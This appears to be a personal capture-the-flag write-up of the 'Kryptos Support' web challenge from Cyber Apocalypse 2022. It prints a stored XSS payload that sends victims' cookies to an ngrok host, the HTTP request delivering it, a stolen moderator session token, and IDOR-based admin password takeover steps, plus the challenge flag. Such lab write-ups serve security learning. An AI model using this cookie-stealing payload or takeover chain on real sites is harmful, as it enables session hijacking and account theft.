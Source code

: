 ```yaml
---
Category: Web
Difficulty: Easy
Platform:
  - Cyber Apocalypse 2022
Retired: true
Status: 3. Complete
Tags:
  - IDOR
  - insecure-password-change
  - XSS
---
```

>[!quote]
> *The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?*****


# Set up

No setup, the challenge is started on-demand.

# Information Gathering

- Browsed the home page:
    
    ![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007.png)
    
- Browsed the login page:
    
    ![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%201.png)
    

# The Bug

- Cross Site Scripting
- IDOR

# Exploitation

XSS payload:

```jsx
<img src=x onerror=this.src='https://bfd1-93-51-54-187.eu.ngrok.io/?'+document.cookie;>
```

Sent the payload to moderators and leaked a cookie:

```
POST /api/tickets/add HTTP/1.1
Host: 157.245.33.77:30340
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://157.245.33.77:30340/
Content-Type: application/json
Origin: http://157.245.33.77:30340
Content-Length: 101
Connection: close

{"message":"<img src=x onerror=this.src='https://bfd1-93-51-54-187.eu.ngrok.io/?'+document.cookie;>"}
```

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%202.png)

```
?session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3MjE3MDN9.arGluuqoLIj6d8GVrrKd_i1ECdd5mPGHaf4NSrCe3-g
```

Decoded JWT token:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%203.png)

Logged in using the leaked session cookie:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%204.png)

Changed moderator password:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%205.png)

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%206.png)

Exploited an Insecure Direct Object Reference to change admin password and login:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%207.png)

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%208.png)

# Flag

>[!success]
>`HTB{x55_4nd_id0rs_ar3_fun!!}`

